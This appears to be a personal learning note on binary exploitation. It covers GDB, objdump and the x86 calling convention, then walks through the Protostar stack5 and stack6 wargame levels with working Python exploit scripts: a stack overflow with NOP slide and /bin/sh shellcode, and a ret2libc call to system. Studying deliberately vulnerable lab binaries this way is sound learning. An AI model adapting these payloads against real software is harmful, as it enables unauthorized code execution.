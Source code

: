 # Security Learning Note

## Binary Exploitation

#### Learning Sources
+ [LiveOverflow Youtube channel](https://www.youtube.com/watch?v=VroEiMOJPm8&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=7&t=0s)

#### Before Cracking
+ ```file```: determine file type
+ ```strings```: print the sequences of printable characters in files

#### GDB
+ ```set disassembly-flavor intel```: a more readable style
+ ```disassemble main```: display all assembler instructions of the ```main``` function
+ ```break *address```: for example, ```break *main```
+ ```si```: step one instruction
+ ```info registers```:
    - ```rip / eip```: instruction pointer (program counter)
    - ```rsp / esp```: stack pointer
    - ```eax```: the first 32 bits of the 64-bit ```rax``` register
+ ```set $eax=0```: set the register ```eax``` to 0
+ ```info proc mapping```: report the memory address space ranges accessible in a process.
+ x command: examine the content of a memory address [reference](https://visualgdb.com/gdbreference/commands/x)
    - ```x/4wx $esp```
+ define a "hook", for example, *hook-stop* will execute when the program stop at a breakpoint:
  ```
  (gdb) define hook-stop
  Type commands for definition of "hook-stop".
  End with a line saying just "end".
  >info registers
  >x/32wx $esp+0x1c
  >x/2i $eip
  >end
  ```

### objdump
+ ```objdump -d $FILENAME```: disassembler
+ ```objdump -x $FILENAME```: print header information
+ ```objdump -t $FILENAME```: print the symbol table entries, can be used to find the address of a function

### strace & ltrace
+ ```strace```: trace system calls
+ ```ltrace```: trace library calls

### Other useful tools
+ Radare2, Ghidra, ...

### Parser Differential
+ Use fuzzing technique to make a program failed to be parsed by gdb, radare2, or whatever but able to be executed by ```execve```.

### Stack

+ ebp / rbp: contains the address of the bottom of the stack
+ esp / rsp: contains the address the top of the stack

### Calling Convention:
1. push the paramters to be passed on the stack (in reverse order)
2. ```call``` instruction
    1. push the return address on the stack
    2. set ```eip (rip)``` to the address of the callee 
4. push the value of ```ebp``` on the stack
5. set ```ebp``` to the value of ```esp```
6. align the value of ```esp``` (bitwise and with 0xfffffff0)
7. substract ```esp``` by a certain value to create the stack frame

### End of a Function
1. ```leave``` instruction: ```mov esp, ebp``` then ```pop ebp```
2. ```ret``` instruction (the invert of ```call``` instruction): get and set the next instruction pointer, which is on the top of the stack 

### [Protostar](https://exploit.education/protostar/)

#### [stack5](https://exploit.education/protostar/stack-five/)

1. First analyze the disassembled code:
```
0x080483c4 <main+0>:    push   ebp
0x080483c5 <main+1>:    mov    ebp,esp
0x080483c7 <main+3>:    and    esp,0xfffffff0
0x080483ca <main+6>:    sub    esp,0x50
0x080483cd <main+9>:    lea    eax,[esp+0x10]
0x080483d1 <main+13>:   mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:   call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:   leave  
0x080483da <main+22>:   ret    
```
The goal is to smash the stack frame of ```gets``` and redirect the return address to ```execve("/bin/sh")``` at the return of main function.
2. From the assembly code, we know the buffer starts at ```$esp+0x10```, whose value can be found by GDB.
3. To know the size of padding, we need to know ```$esp``` when ```0x080483da <main+22>:   ret``` is executed. We can find it out by setting a breakpoint at ```ret``` and ```x/wx $esp```. Now we know that the padding should be 76 bytes long. (actually the last 4 bytes is the old ```ebp```, but it does not matter here)
4. determine the value of ```eip```: Where to place our shell code? Here we choose to place it right after the position of ```eip```
5. However, the address space may not be the same every time since the data pushed on the stack can be different (e.g. environment variables). To address this issue, we can find a way to know the exact value by the other code in the binary. However, we can also use NOP(opcode: ```0x90```) slide to make sure that ```eip``` points to the code we control. 
    - make the *eip* point to the middle of the NOP slide
6. add shellcode: copy from [shell-storm](http://shell-storm.org/shellcode/)

!!! info
    use ```int3```(opcode: ```0xCC```) instruction to debug shellcode

!!! warning
    ```python exploit.py | /opt/protostar/bin/stack5``` does not work because stack5's stdin has been redirected to the stdout of exploit.py. When the shell gets executed, it reads nothing but the EOF of the stdout of exploit.py. As a result, the shell does not read any input from our terminal. A possible solution is using ```cat``` to "continue" the pipe and pipe our commands into the stdin of the shell.
    ```bash
    (python exploit.py; cat) | /opt/protostar/bin/stack5
    ```

Python2 Script:
```python
import struct

padding = 'A' * 76
eip = struct.pack('I', 0xbffff6e0+40)
nopslide = '\x90' * 100
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
print padding + eip + nopslide + shellcode
```

#### [stack6](https://exploit.education/protostar/stack-six/)

In this task, the return address is restricted so we cannot just set it to an address on the stack. Instead, we take use of the code of ```libc```. The goal is to call ```system()``` with ```/bin/sh``` as the argument. This is a attack method called **ret2libc**.

+ How to call ```system()```
    1. push the argument ("/bin/sh") on the stack
    2. push the return address on the stack
    3. jump to ```system```

+ Thus, when ```ret``` instruction jump to ```system```, the stack should be as follow:
    ```
    -----------------------------
     return address after system  <---- esp
    -----------------------------
         address of "/bin/sh"
    -----------------------------
    ```
+ And our buffer overflow should make the stack be as follow:
    ```
    -----------------------------
             padding
    -----------------------------
         address of system
    -----------------------------
     return address after system 
    -----------------------------
         address of "/bin/sh"
    -----------------------------
    ```
+ script:
    ```python
    import struct

    padding = 'A' * 80
    system = struct.pack('I', 0xb7ecffb0)
    return_after_system = 'AAAA'
    bin_sh = struct.pack('I', 0xb7fb63bf)
    print padding + system + return_after_system + bin_sh
    ```

+ find the address of ```system```: in GDB type ```p system```
+ find the address of "/bin/sh"
    1. use environment variables
    2. find in libc: ```string -a -t x /lib/libc-2.11.2.so | grep "/bin/sh"``` + the start address of libc in the program's memory mapping.